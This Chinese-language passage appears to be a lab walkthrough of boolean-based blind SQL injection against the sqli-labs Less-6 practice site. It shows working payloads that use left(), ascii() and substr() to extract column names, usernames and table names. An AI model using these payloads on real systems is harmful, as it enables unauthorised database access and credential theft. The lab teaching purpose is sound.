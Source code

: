 其他测试可自行继续猜解其他表,其中包含:users等表,具体不作实操;

### 1.1.3.爆表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select column_name from information_schema.columns where
table_name='users' limit 0,1),1)='i'--+
```

![bool6](/images/sqlall/bool6.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select column_name from information_schema.columns where
table_name='users' limit 0,1),2)='id'--+
```

其他字段名:id、username、password

### 1.1.4.爆数据

```bash
URL:注意:第一个username是D,大写字符,但是这里无法区分大小写;
http://sqli-labs.me:8888/Less-6/?id=1" and left((select username from security.users limit 0,1),1)='d'--+
```

![bool7](/images/sqlall/bool7.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select username from security.users limit 0,1),2)='du'--+
```

建议:这里不要使用此函数进行猜解,因为无法判断字符哪里是大写哪里是小写的字符;建议使用下面ascii码来判断字符信息;其他部分就不继续猜解,因为字符中存在大小写区分.

## 1.2.ascii()&substr()

```bash
格式:
ascii(string)>ascii码           ascii转换作用,并与外部进行比较;
substr(string,start,length)  从字符串开始的数字,取出长度为length长度的字符;
```

下面就利用此paylaod进行获取库中表名:

```bash
ascii(substr((select table_name from information_schema.tables where tables_schema=database() limit 0,1),1,1))=101
//注意：database()已经通过以上方式可以获得;
```

ASCII码对照表:http://ascii.911cha.com/
